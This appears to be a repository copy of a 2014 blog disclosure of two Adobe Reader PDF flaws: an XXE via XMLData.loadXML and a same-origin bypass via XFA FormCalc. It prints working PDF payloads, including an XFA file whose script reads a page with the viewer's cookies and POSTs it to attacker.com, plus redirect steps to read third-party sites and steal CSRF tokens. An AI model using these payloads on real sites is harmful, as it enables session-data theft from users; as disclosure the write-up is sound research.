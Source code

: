 # PDF Upload - XXE and CORS bypass

### Content copied from [https://insert-script.blogspot.com/2014/12/multiple-pdf-vulnerabilites-text-and.html](https://insert-script.blogspot.com/2014/12/multiple-pdf-vulnerabilites-text-and.html)

## Javascript function in Reader can be used to read data from external entities \(CVE-2014-8452\)

Status: Fixed  
Reality: Not Fixed

This one is about a simple XXE I discovered.  
I read the paper "Polyglots: Crossing Origins by Crossing Formats", where they discussed a vulnerability in  
XMLData.parse. It was possible to use external entities and reference them.  
I read the specification and it turns out there are more functions than "parse" to read XML.  
I created a simple xml file, which references an url from the same domain and parsed it with loadXML.  
It worked:

![](https://4.bp.blogspot.com/-is4Q5hSZk-Y/VIwdzdAckWI/AAAAAAAAACI/OAzBs9Q-T50/s1600/xxe.png)

```text
7 0 obj
<<
 /Type /Action
/S /JavaScript
/JS (
var cXMLDoc = '<?xml version="1.0" encoding="ISO-8859-1"?><foo>muh</foo>'
var cXMLDoc2 = '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY aaaa SYSTEM "http://example.com">]><ab>&aaaa;</ab>'
xml = XMLData.parse(cXMLDoc,false);
xml.loadXML(cXMLDoc2,false,true);
)
>>
endobj
```

The Impact is limited because  
o\) it is limited to same origin  
o\) HTML Pages break the xml  
o\) Dynamic Entities are not supported  
o\) I had the idea to use a utf-16 xml to avoid breaking the xml structure, but I it didn't work.

But it still can be used to read JSON.

## Same origin policy bypass in Reader \(CVE-2014-8453\)

Status: fixed  
Reality: fixed but same origin still vulnerable!

In my opinion this is the most powerful vulnerability. Even without the Origin Bypass it shows you  
how powerful/terrifying PDF can be.  
Many people know that PDF supports a scripting language called Javascript but there is another one.  
It is mentioned in the specification for XFA, a file type also supported by the adobe reader.  
It is called formcalc and it not that powerful. It is used for simple math calculation. But in the adobe specification  
there are three additional functions: 'GET','POST' and 'PUT'. Yes, their names speak for themselves.  
'GET' has one parameter: an url. It will use the browser \(YEAH COOKIES\) to retrieve the url and return the content of it.  
We can then use 'POST' to send the return content to our own server:

var content = GET\("myfriends.php"\);  
Post\("[http://attacker.com",content\](http://attacker.com",content\)\);

These functions are same origin, so a website needs to allow us to upload a PDF. Thats not that unrealistic for  
most websites. Attacker.com is not same origin, so you need to setup a crossdomain.xml, as usual with Adobe products.

To sum up: This is not a bug, this is a feature. As soon as you are allowed to upload a PDF on a website,  
you can access the website in the context of the user, who is viewing the PDF. Because the requests are issued  
by the browser, cookies are sent too. You can also use it to break any CSRF Protection by reading the tokens.

```text
% a PDF file using an XFA
% most whitespace can be removed (truncated to 570 bytes or so...)
% Ange Albertini BSD Licence 2012

% modified by insertscript

%PDF-1. % can be truncated to %PDF-\0

1 0 obj <<>>
stream
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
<config><present><pdf>
    <interactive>1</interactive>
</pdf></present></config>
<template>
    <subform name="_">
        <pageSet/>
        <field id="Hello World!">
            <event activity="initialize">
                <script contentType='application/x-formcalc'>
     var content = GET("myfriends.php");
                   Post("http://attacker.com",content);
                </script>
            </event>
        </field>
    </subform>
</template>
</xdp:xdp>
endstream
endobj

trailer <<
    /Root <<
        /AcroForm <<
            /Fields [<<
                /T (0)
                /Kids [<<
                    /Subtype /Widget
                    /Rect []
                    /T ()
                    /FT /Btn
                >>]
            >>]
            /XFA 1 0 R
        >>
        /Pages <<>>
    >>
>>
```

After I found these functions, I found a same origin policy bypass. This makes it possible to use a victim browser  
as a proxy \(@beef still working on the module^^\)

The bypass is really simple:

1. User A loads evil.pdf from [http://attacker.com/evil.pdf](http://attacker.com/evil.pdf)  
2. Evil.pdf uses formcalc GET to read [http://attacker.com/redirect.php](http://attacker.com/redirect.php)  
3. redirect.php redirects with 301 to [http://facebook.com](http://facebook.com)  
4. Adobe reader will follow and read the response without looking for a crossdomain.xml.  
5. evil.pdf sends the content retrieved via POST to [http://attacker.com/log.php](http://attacker.com/log.php)

Note that using this technique you can steal the CRSF tokens of a page and abuse CSRF vulns.

This simple bypass is fixed now. I hope they going to implement a dialog warning for same origin requests too.

